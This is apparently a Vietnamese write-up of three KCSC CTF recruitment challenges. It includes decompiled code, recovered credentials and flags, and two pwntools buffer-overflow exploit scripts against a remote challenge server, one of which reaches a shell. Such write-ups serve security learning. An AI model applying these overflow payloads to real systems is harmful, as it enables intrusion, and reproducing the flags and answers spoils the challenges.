

# kcsc ctf recruit member
Đợt này mình chuẩn bị không kỹ càng lắm nên giải được ít bài =((
## Treasue

Ta được phát 1 file như này

    trungdo@TEFO:/mnt/c/ctf/kcsc/treasure$ file treasure
    treasure: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9fb3a8f185da018cb4d4149f4b8dfc7335e2542c, for GNU/Linux 3.2.0, not stripped
Chạy thử ta có part1 của flag: 

    trungdo@TEFO:/mnt/c/ctf/kcsc/treasure$ ./treasure
    Part 1: KCSC{
Thử tìm kiếm chuỗi trong file binary thì có part 3: 

    trungdo@TEFO:/mnt/c/ctf/kcsc/treasure$ strings treasure | grep Part
    Part 1: KCSC{
    Part 2: %s
    Part 3: _27651d2df78e1998}
Ném vào IDA được phần còn lại 

`flag : KCSC{4_t1ny_tr34sur3_27651d2df78e1998}`
## Cat

Vẫn được phát cho 1 `file binary`

    trungdo@TEFO:/mnt/c/ctf/kcsc/cat$ file cat
    cat: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=4f771cfd97efdbadc12e89fe42513cb94da5a7e8, for GNU/Linux 3.2.0, not stripped
    trungdo@TEFO:/mnt/c/ctf/kcsc/cat$ ./cat
    Username: hoho
    Password: hihi
    Unauthorized access is forbidden!
Nó bắt nhập `username` `password` mn ạ :(. Bắt đầu hành trình tìm `username` và `password` của em ló
Đầu tiên cứ phải check xem có gì hay k cái đã
Chạy lệnh strings và tớ tìm đc cái này

Chắc hẳn `Username` là `KCSC_4dm1n1str4t0r`, còn `password` là `wh3r3_1s_th3_fl4g` rồi.
Nhưng mà cuộc đời thì k nên tin bố con thằng nào cả, kể cả thằng ra đề. Nên để chắc chắn thì tớ sẽ check lại (ai ngờ đúng thật =)))

    trungdo@TEFO:/mnt/c/ctf/kcsc/cat$ ./cat
    Username: KCSC_4dm1n1str4t0r
    Password: wh3r3_1s_th3_fl4g
    Logged in!
    Your secret: aaaaaaaaaaaaaaa
    Saving secret "�aaaaaaaaaaaaaaa
    "...
    Done! Exiting...
Khi `login` thành công ló lại bắt mình nhập cái gì đó =(((. Cứ tưởng `login` thành công sẽ có `flag` chứ

Tạo fake flag debug thử coi

    trungdo@TEFO:/mnt/c/ctf/kcsc/cat$ echo "fake flag" > flag.txt
    trungdo@TEFO:/mnt/c/ctf/kcsc/cat$ gdb cat
Ném vào `IDA` tớ thấy nó đọc **512** byte nên tớ cho nó **600** byte thử
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-4h]
  int v5; // [rsp+Ch] [rbp-4h]

  init();
  read_flag();
  printf("Username: ");
  v4 = read(0, username, 0x20uLL);
  if ( username[v4 - 1] == 10 )
    username[v4 - 1] = 0;
  printf("Password: ");
  v5 = read(0, password, 0x20uLL);
  if ( password[v5 - 1] == 10 )
    password[v5 - 1] = 0;
  if ( !strcmp(username, "KCSC_4dm1n1str4t0r") && !strcmp(password, passwd) )
  {
    puts("Logged in!");
    printf("Your secret: ");
    read(0, secret, 512uLL);
    printf("Saving secret \"%s\"...\n", secret);
    puts("Done! Exiting...");
  }
  else
  {
    puts("Unauthorized access is forbidden!");
  }
  return 0;
}
```

Ố ồ xem chúng ta có gì nào. Đoạn cuối chính là `fake flag` mình vừa tạo ban nãy
Giờ thì tạo script exploit thôi (hehee boi)
```python
from pwn import *
username = b"KCSC_4dm1n1str4t0r"
passwd = b"wh3r3_1s_th3_fl4g"
payload = b"A"*600
host = "146.190.115.228"
port = 9994
con = remote(host, port)
print(con.recvuntil(b": "))
con.sendline(username)
print(con.recvuntil(b": "))
con.sendline(passwd)
print(con.recvuntil(b": "))
con.sendline(payload)
con.interactive()

```

Yeah sure chắc chắn là như vậy rồi =))
`flag: KCSC{w3ll_d0n3_y0u_g0t_my_s3cr3t_n0w_d04942f299}`
## Over the write

Vẫn là 1 `file binary`. Dow về thôi

    trungdo@TEFO:/mnt/c/ctf/kcsc/overthewrite$ file overthewrite
    overthewrite: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=5639b02135698a4424c71be1e331ec297debd234, for GNU/Linux 3.2.0, not stripped
    trungdo@TEFO:/mnt/c/ctf/kcsc/overthewrite$ ./overthewrite
    Welcome to OverTheWrite! Please enter your key to login!
    Key: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    Stage 1 failed!
Nghe cái tên đã nặc mùi `overflow` rồi. Như thói quen, chạy lệnh `strings` xem có gì hot k (Đã thử và k có gì đặc biệt :( )
Ném vào `IDA`:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf[4]; // [rsp+0h] [rbp-50h] BYREF
  char s1[8]; // [rsp+20h] [rbp-30h] BYREF
  __int64 v6; // [rsp+28h] [rbp-28h]
  __int64 v7; // [rsp+38h] [rbp-18h]
  __int64 v8; // [rsp+40h] [rbp-10h]
  int v9; // [rsp+4Ch] [rbp-4h]

  *(_QWORD *)s1 = 0LL;
  v6 = 0LL;
  v9 = 0;
  v8 = 0LL;
  v7 = 0LL;
  buf[0] = 0LL;
  buf[1] = 0LL;
  buf[2] = 0LL;
  buf[3] = 0LL;
  ((void (__fastcall *)(int, const char **, const char **))init)(argc, argv, envp);
  puts("Welcome to OverTheWrite! Please enter your key to login!");
  printf("Key: ");
  read(0, buf, 80uLL);
  if ( v9 != 0x13371337 )
    fail(1u);
  if ( v8 != 0xDEADBEEFCAFEBABELL )
    fail(2u);
  if ( v7 != 0x215241104735F10FLL )
    fail(3u);
  if ( strcmp(s1, "Welcome to KCSC") )
    fail(4u);
  system("/bin/sh");
  return 0;
}
```
Chương trình khởi tạo 1 mảng `_int64 buff[4]` và 3 biến local `v6`, `v7`, `v8` mỗi phần tử chiếm `8 byte`, mảng `char s1` chiếm `8 byte`, `v9` chiếm `4 byte`
chương trình sẽ lần lượt kiểm tra các điều kiện nếu sai thì `exit` 
Kiểm tra 1 chút

`CANARY` *disable* nên hoàn toàn có thể `overflow` được
Còn exploit ở đâu? Tất nhiên là ở biến buffer rồi =))

Look at this. Trước khi 1 func được gọi thì các `argument` của nó sẽ được push vào stack trước, nên chắc chắn **[rbp-0x50]** là address của `buff`. Nhưng vấn đề ở đây là func `read` sẽ đọc **0x50 byte** trong khi độ dài của `buff` chỉ là **8 x 4= 32 byte**. Vậy nên đây là nơi tớ sẽ exploit!

Khi chương trình chạy `stack` sẽ trông dư lày: 

**Exploit**
```python
from pwn import *
v9 = 0x13371337
v8 = 0xDEADBEEFCAFEBABE
v7 = 0x215241104735F10F
s1 = b"Welcome to KCSC\0"
junk = b"A"*100
host = "146.190.115.228"
port = 9992
payload = b"A" * 32 #buff
payload += s1
payload += b"A"*8 #v6
payload += p64(v7)
payload += p64(v8)
payload += b'A'*4
payload += p32(v9)
p = remote(host, port)
#p = process("./overthewrite")
print(p.recvuntil(b": "))
print(payload)
p.send(payload)
p.interactive()

```

Lúc đầu tớ thêm `b"A"` thay vì `/0` vào `s1` nên chạy nó cứ bị sai, về sau mới nhớ =))